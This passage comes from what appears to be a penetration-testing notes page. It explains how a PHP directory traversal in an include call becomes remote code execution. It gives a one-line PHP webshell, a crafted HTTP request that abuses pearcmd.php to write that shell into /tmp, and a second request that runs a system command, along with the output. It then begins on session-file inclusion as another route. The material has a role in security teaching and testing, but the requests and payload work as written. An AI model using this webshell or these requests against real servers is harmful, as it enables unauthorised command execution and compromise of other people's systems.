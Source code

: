Even if the user has **no write privileges to the webroot**, we already have a directory traversal on the include function to be able to do this in the first place, so we can re-use it later to include the file we write executing the payload. We will write it to the `/tmp` folder with a simple shell that runs the `?0=` parameter as a system command:

{% code title="/tmp/shell.php" %}
```php
<?=`$_GET[0]`?>
```
{% endcode %}

Note that the config file we will write contains this string multiple times, so the command is executed and its output is included in the response multiple times. We first use the directory traversal to include the `pearcmd.php` file and write the config with a PHP shell:

{% code title="Request 1" overflow="wrap" %}
```http
GET /?+config-create+/&page=../../../../usr/local/lib/php/pearcmd&/<?=`$_GET[0]`?>+/tmp/shell.php HTTP/1.1
Host: localhost
```
{% endcode %}

You should receive a verbose `CONFIGURATION ...` response if this was successful. Then the only thing left to do is execute our written webshell with the same vulnerability:

{% code title="Request 2" %}
```http
GET /?page=../../../../tmp/shell&0=id HTTP/1.1
Host: localhost:8000
```
{% endcode %}

{% code overflow="wrap" %}
```
#PEAR_Config 0.9
a:13:{s:7:"php_dir";s:70:"/&page=../../../../usr/local/lib/php/pearcmd&/uid=33(www-data) gid=33(www-data) groups=33(www-data)
...
```
{% endcode %}

{% hint style="warning" %}
**Note**: The `/usr/local/lib/php/pearcmd.php` file we abuse here does not exist on all setups. It is included in PHP < 7.3 by default, and version > 7.4 if the `--with-pear` option was used to compile it. Any _official docker image_ however does include it, so in many instances, you will find this file.
{% endhint %}

### RCE using Session file

Another way is using PHP sessions, which store your session data in `/tmp/sess_[PHPSESSID]` which you can access using your own `PHPSESSID=` cookie on the site. Anything saved to `$_SESSION[]` in the code will be saved to this file. If you put PHP code into your session and include it, the PHP code will be executed.

